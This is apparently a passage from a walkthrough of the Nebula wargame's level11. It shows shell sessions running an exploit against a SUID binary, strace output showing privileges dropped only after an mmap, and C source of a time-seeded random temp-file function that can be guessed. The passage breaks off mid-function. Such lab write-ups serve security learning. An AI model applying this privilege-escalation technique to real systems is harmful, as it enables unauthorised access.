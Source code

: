 We attempt to run out exploit. We have to change the `TEMP` environmental
variable to point to a location where we can read and write to files.

```shell
level11@nebula:~$ export TEMP=/tmp
level11@nebula:~$ python level11.py | /home/flag11/flag11
blue = 1024, length = 1024, pink = 1024
/usr/bin/ld: cannot open output file /home/flag11/shell: Permission denied
collect2: ld returned 1 exit status
chmod: changing permissions of `/home/flag11': Operation not permitted
```

However, we encounter a permissions error when we try to write to
`/home/flag11/shell`. This is odd because our binary is a SUID binary.

```shell
level11@nebula:~$ ls -lah /home/flag11
total 17K
drwxr-x--- 1 flag11 level11   40 2012-08-20 18:58 .
drwxr-xr-x 1 root   root     120 2012-08-27 07:18 ..
-rw-r--r-- 1 flag11 flag11   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag11 flag11  3.3K 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag11 level11  12K 2012-08-19 20:55 flag11
-rw-r--r-- 1 flag11 flag11   675 2011-05-18 02:54 .profile
drwxr-xr-x 2 flag11 flag11     3 2012-08-27 07:15 .ssh
```

Running the binary under `strace`, we see an explicit call to `setuid32` and
`setgid32` that drops privileges back to the level11 user.

```shell
level11@nebula:~$ python level11.py | strace /home/flag11/flag11
... snip ...
getgid32()                              = 1012
setgid32(1012)                          = 0
getuid32()                              = 1012
setuid32(1012)                          = 0
... snip ...
```

However, we see that the the `setuid32` and `setgid32` calls only happens
*after* the `mmap` happens. This means that we can potentially write to a
flag11 owned file or directory if we can guess the random file that the
`getrand` function generates.

```c
/*
 * Return a random, non predictable file, and return the file descriptor for it.
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();

  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));

  fd = open(*path, O_CREAT|O_RDWR, 0600);
  unlink(*path);
```